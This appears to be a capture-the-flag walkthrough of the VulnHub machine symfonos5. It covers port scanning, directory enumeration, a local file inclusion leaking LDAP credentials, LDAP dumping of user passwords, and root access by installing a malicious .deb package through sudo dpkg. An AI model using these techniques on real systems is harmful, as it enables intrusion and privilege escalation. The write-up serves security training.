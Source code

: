 ```yaml
---
layout : post
title: symfonos5
date: 2021-04-17 17:28:00 +5:30 
tags: [LFI,LDAP,gtfobin dpkg]
---
```

# Namp

```
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 16:70:13:77:22:f9:68:78:40:0d:21:76:c1:50:54:23 (RSA)
|   256 a8:06:23:d0:93:18:7d:7a:6b:05:77:8d:8b:c9:ec:02 (ECDSA)
|_  256 52:c0:83:18:f4:c7:38:65:5a:ce:97:66:f3:75:68:4c (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
636/tcp open  ldapssl?
```
# Enumeration

Port 80 Enumeration

```
gobuster dir -u http://10.0.2.52/ -w /usr/share/dirb/wordlists/big.txt -s 200,301,302 -x html,txt,php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.52/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
2021/04/17 08:23:05 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.html       (Status: 403) [Size: 274]
/.htaccess            (Status: 403) [Size: 274]
/.htpasswd            (Status: 403) [Size: 274]
/.htaccess.txt        (Status: 403) [Size: 274]
/.htpasswd.html       (Status: 403) [Size: 274]
/.htaccess.php        (Status: 403) [Size: 274]
/.htpasswd.txt        (Status: 403) [Size: 274]
/.htpasswd.php        (Status: 403) [Size: 274]
/admin.php            (Status: 200) [Size: 1650]
/home.php             (Status: 302) [Size: 0] [--> admin.php]
/index.html           (Status: 200) [Size: 207]              
/logout.php           (Status: 302) [Size: 0] [--> admin.php]
/portraits.php        (Status: 200) [Size: 165]              
/server-status        (Status: 403) [Size: 274]              
/static               (Status: 301) [Size: 307] [--> http://10.0.2.52/static/]
                                                                              
===============================================================
2021/04/17 08:23:15 Finished
===============================================================
```
/admin.php /home.php dir are intresting 

/admin directory not vulnerble to sqli
 ![](\assets\img\vulnhub\symfonos5\admin.png)

when we try to access /home.php directory to redirect to /admin.php

fire brupsuite , checked the source Code , /home.php include url from server local host , here this leverage to LFI 
 ![](\assets\img\vulnhub\symfonos5\LFI.png)

 `/var/www/html/admin.php has the ldap creds init encoded with base64`

 ```bash
 echo "Y2V0a0tmNHdDdUhDOUZFVA==" | base64 -d
 ```


![]()
<h3>LDAP Enumeration</h3>

>ldapsearch -h 10.0.2.52 -p 389 -b "dc=symfonos,dc=local" -w 'qMDdyZh3cT6eeAWD' -D "cn=admin,dc=symfonos,dc=local"

```
┌──(root💀nucleus)-[~]
└─# ldapsearch -h 10.0.2.52 -p 389 -b "dc=symfonos,dc=local" -w 'qMDdyZh3cT6eeAWD' -D "cn=admin,dc=symfonos,dc=local"
# extended LDIF
#
# LDAPv3
# base <dc=symfonos,dc=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# symfonos.local
dn: dc=symfonos,dc=local
objectClass: top
objectClass: dcObject
objectClass: organization
o: symfonos
dc: symfonos

# admin, symfonos.local
dn: cn=admin,dc=symfonos,dc=local
objectClass: simpleSecurityObject
objectClass: organizationalRole
cn: admin
description: LDAP administrator
userPassword:: e1NTSEF9VVdZeHZ1aEEwYldzamZyMmJodHhRYmFwcjllU2dLVm0=

# zeus, symfonos.local
dn: uid=zeus,dc=symfonos,dc=local
uid: zeus
cn: zeus
sn: 3
objectClass: top
objectClass: posixAccount
objectClass: inetOrgPerson
loginShell: /bin/bash
homeDirectory: /home/zeus
uidNumber: 14583102
gidNumber: 14564100
userPassword:: Y2V0a0tmNHdDdUhDOUZFVA==
mail: zeus@symfonos.local
gecos: Zeus User

# search result
search: 2
result: 0 Success

# numResponses: 4
# numEntries: 3

```

from above Enumeration we got Username and password

`zeus:Y2V0a0tmNHdDdUhDOUZFVA==`

# PrivilageEsclation

![](\assets\img\vulnhub\symfonos5\sudodpkg.png)

dpkg linux package SUID can be run as root without  passwd

so first we need to create the .db package which contains the bash shell so that when it is extracted it `spawn the Bashshell`

fpm
: fpm is used to create the .db pacakge

> fpm -s dir -t deb -n exploit --before-install shell.sh .

```bash
zeus@symfonos5:/tmp$ sudo -u root /usr/bin/dpkg -i exploit_1.0_amd64.deb
Selecting previously unselected package exploit.
(Reading database ... 53057 files and directories currently installed.)
Preparing to unpack exploit_1.0_amd64.deb ...
root@symfonos5:/# cd /root
root@symfonos5:~# ls
proof.txt
root@symfonos5:~# cat proof.txt 
 
                    Congrats on rooting symfonos:5!
  
                                   ZEUS
              *      .            dZZZZZ,       .          *
                                 dZZZZ  ZZ,
     *         .         ,AZZZZZZZZZZZ  `ZZ,_          *
                    ,ZZZZZZV'      ZZZZ   `Z,`\
                  ,ZZZ    ZZ   .    ZZZZ   `V
        *      ZZZZV'     ZZ         ZZZZ    \_              .
.              V   l   .   ZZ        ZZZZZZ          .
               l    \       ZZ,     ZZZ  ZZZZZZ,
   .          /            ZZ l    ZZZ    ZZZ `Z,
                          ZZ  l   ZZZ     Z Z, `Z,            *
                .        ZZ      ZZZ      Z  Z, `l
                         Z        ZZ      V  `Z   \
                         V        ZZC     l   V
           Z             l        V ZR        l      .
            \             \       l  ZA
                            \         C          C
                                  \   K   /    /             K
                          A    \   \  |  /  /              /
                           \        \\|/ /  /
   __________________________________\|/_________________________
            Contact me via Twitter @zayotic to give feedback!

```